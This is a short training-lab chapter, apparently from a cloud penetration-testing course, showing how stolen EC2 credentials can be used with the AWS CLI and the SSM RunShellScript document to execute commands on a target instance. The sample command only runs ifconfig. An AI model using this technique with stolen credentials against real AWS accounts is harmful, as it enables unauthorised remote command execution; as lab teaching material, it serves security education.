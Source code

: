 # Execute commands using SSM

## Introduction

When you discover a vulnerability that allows you to gain access to the security credentials on an EC2 (from the environment variables or instance meta-data), using SSM you can use this to execute commands on the machine.

AWS SSM uses various 'documents' to operationalize AWS resources. The full list of documents can be found at `https://console.aws.amazon.com/systems-manager/documents/`

Using the `AWS-RunShellScript` document, we can execute commands on the target EC2.

## What are we going to cover?

This chapter will cover the aws cli commands required to execute on commands on a target EC2. Although, we will be attacking the attacker machine, this can easily be reproduced on another machine by creating profile of the stolen credentials.

## Steps to achieve this

- In your student machine, run

`aws ssm describe-instance-information` 

to obtain the instance-id of the EC2 to which the SSM policy is attached.

- Run 

`aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text --query "Command.CommandId"`

to execute `ifconfig` and obtain its `CommandId` which is required to see the output of the command

- Run

`aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}"`

to see the output.

## Additional references

- [AWS-RunShellScript Example](https://docs.aws.amazon.com/systems-manager/latest/userguide/walkthrough-cli.html)
- [AWS SSM Documents](https://console.aws.amazon.com/systems-manager/documents/)
- [IAM, SSM and Code Execution](https://speakerdeck.com/riyazwalikar/raining-shells-in-aws-by-chaining-vulnerabilities?slide=33)